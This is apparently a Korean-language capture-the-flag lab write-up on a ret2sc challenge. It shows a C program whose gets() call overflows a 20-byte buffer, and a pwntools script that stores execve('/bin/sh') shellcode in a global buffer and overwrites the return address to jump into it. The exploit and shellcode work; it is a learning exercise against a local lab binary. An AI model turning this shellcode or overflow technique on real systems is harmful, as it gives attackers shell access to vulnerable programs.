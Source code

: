 lab3
====
`ret2sc.c`에서 다음과 같은 코드를 볼 수 있었다.
```
#include <stdio.h>

char name[50];

int main(){
	setvbuf(stdout,0,2,0);
	printf("Name:");
	read(0,name,50);
	char buf[20];
	printf("Try your best:");
	gets(buf);
	return ;
}
```
먼저 `Name`을 입력 받은 후 `buf`값을 입력받는데 `Name`을 입력 받을 때에는 길이 검사를 하며 `buf`를 입력받을 때에는 길이검사가 없다.   
따라서 `buf`를 입력받을 때 bof를 시켜 `Name`주소로 ret시키고 `Name`에는 쉘코드를 넣어주면 해결 할 수 있을 것이다.

알아낸 `Name`의 주소는 `0x804a060`이였으며, 다음과 같이 코드를 작성하였다.
```
from pwn import*

p = process('./ret2sc')

name = 0x804a060

pl1 = ''
pl1 += '\x90'*10
pl1 += '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69'
pl1 += '\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80'

pl2 = ''
pl2 += 'a'*32
pl2 += p32(name)

p.recvuntil(":")
p.send(pl1)
p.recvuntil(':')
p.send(pl2)

p.interactive()
```

https://postfiles.pstatic.net/MjAxOTA4MDJfMjU1/MDAxNTY0NzMyODEyMDU5.rR_beKFFZDCcs3ZtbJKSpinGAm-5MOtGaDMdLP_goHkg.dqOs30R6BxI3My2RL07mlbCF7j-0d78n_9f9OOSKoj0g.PNG.rlaeoghks823/%EC%8A%A4%ED%81%AC%EB%A6%B0%EC%83%B7,_2019-07-30_00-15-30.png?type=w773

